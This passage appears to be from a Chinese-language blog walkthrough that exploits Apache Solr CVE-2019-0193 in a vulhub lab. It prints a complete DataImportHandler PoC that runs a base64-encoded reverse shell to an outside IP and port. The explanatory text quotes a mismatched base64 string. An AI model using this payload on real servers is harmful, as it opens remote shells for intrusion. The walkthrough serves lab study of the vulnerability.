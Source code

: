 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139544-1861208892.png)

```plain
也可以进行批量测试，修改solr_rce.py文件
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139001-325338163.png)

```plain
3、远程命令执行漏洞(CVE-2019-0193)
影响版本：Apache Solr < 8.2.0版本
需要登录才能利用。

启动环境：
cd /vulhub-master/solr/CVE-2019-0193
sudo docker-compose up -d


参考：https://vulhub.org/#/environments/solr/CVE-2019-0193/

访问：http://192.168.233.128:8983/solr/#/
默认是没有test的，在执行：sudo docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139030-1679675433.png)

```plain
选择test-->dataimport-->debug-->configuration-->debug mode
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139536-322609774.png)

```plain
把poc进行复制：
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>

其中YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3LzU1NjYgMD4mMQ==是反弹命令base64编码。
反弹命令：bash -i >& /dev/tcp/175.178.151.29/5566 0>&1
base64：YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=

然后在点击execute with this configuration
```
